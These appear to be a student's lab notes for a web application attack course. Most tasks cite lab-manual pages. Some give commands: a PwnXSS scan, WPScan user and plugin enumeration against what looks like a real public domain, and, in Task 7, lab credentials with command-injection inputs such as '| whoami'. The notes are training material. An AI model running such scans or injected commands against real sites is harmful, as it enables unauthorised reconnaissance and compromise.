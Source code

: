 ```

```

# LAB 2: Perform Web Application Attacks
---
### Task 1: Perform a Brute-force Attack using Burp Suite
---
**LAB Manual 3**: Page 1572

### Task 2: Perform Parameter Tampering using Burp Suite
---
**LAB Manual 3**: Page 1590

### Task 3: Identifying XSS Vulnerabilities in Web Applications using PwnXSS
---
┌──(toolsvenv)─(voldemort@ideapad)-[~/tools/PwnXSS]
└─$ `python3 pwnxss.py -u http://192.168.0.106/`

### Task 4: Exploit Parameter Tampering and XSS Vulnerabilities in Web Applications
---
**LAB Manual 3**: Page 1603

### ==Task 5:Perform Cross-site Request Forgery (CSRF) Attack==
---
**LAB Manual 3**: Page 1611

### Task 6: Enumarate and Hack a Web Application using WPScan and Metasploit
---
**WPScan**

┌──(toolsvenv)─(voldemort@ideapad)-[~/tools]
└─$ `wpscan --url https://277fifthnomad.com/ --enumerate u`

┌──(toolsvenv)─(voldemort@ideapad)-[~/tools]
└─$ `wpscan --url https://277fifthnomad.com/ --enumerate vp`

┌──(voldemort@ideapad)-[~/thm]
└─$ `wpscan --url https://bricks.thm/ --disable-tls-checks`

**Metasploit**

**LAB Manual 3**: Page 1632

### Task 7: Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server
---
**LAB Manual 3**: Page 1635
usename - gordonb
password - abc123
 | hostname
 | whoami
 | tasklist
 | Taskkill /PID 3112/F     #Terminate_the_process3